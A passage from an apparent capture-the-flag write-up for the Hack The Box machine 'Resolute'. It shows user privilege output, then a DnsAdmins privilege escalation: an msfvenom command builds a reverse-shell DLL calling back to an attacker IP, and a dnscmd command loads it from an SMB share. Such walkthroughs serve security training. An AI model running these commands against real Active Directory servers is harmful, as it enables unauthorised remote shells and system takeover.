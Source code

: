 ```bash
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
`ryan` is a member of `DnsAdmins` Group.

> DNSAdmin : Members of DNSAdmins group have access to network DNS information. The default permissions are as follows: Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions.

There is a popular attack called `DLL Injection`

**Reference:** [https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2)

## Privilege Escalation


### Building the Payload

```bash
root@w0lf:~/CTF/HTB/Boxes/Resolute# msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=1234 -f dll > root.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 5120 bytes
```

### Uploading the Payload:

I used SMB Server to host our payload.

This command will inject our payload.

```bash
dnscmd resolute /config /serverlevelplugindll \\10.10.14.6\share\root.dll
```
